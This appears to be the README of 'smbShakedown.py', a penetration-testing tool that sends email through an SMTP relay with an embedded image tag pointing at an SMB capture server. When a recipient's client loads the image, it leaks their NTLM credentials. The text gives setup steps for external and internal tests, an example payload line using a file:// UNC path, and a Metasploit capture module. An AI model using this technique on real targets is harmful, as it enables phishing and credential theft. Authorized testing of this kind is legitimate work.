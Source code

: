 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses.
    
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Relay server address or your own locally hosted SMTP Server. (Looking into intergrated support.)
    <Does the client's Email server support relaying?>
    
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses.
    
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally since your testing an internal network right?
    (Will add in support to automatically launch MSF Console with auxiliary/server/capture/smb)

#To do:
    SMTP Anonymous Auth option
    MSF Console option(auxiliary/server/capture/smb)
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
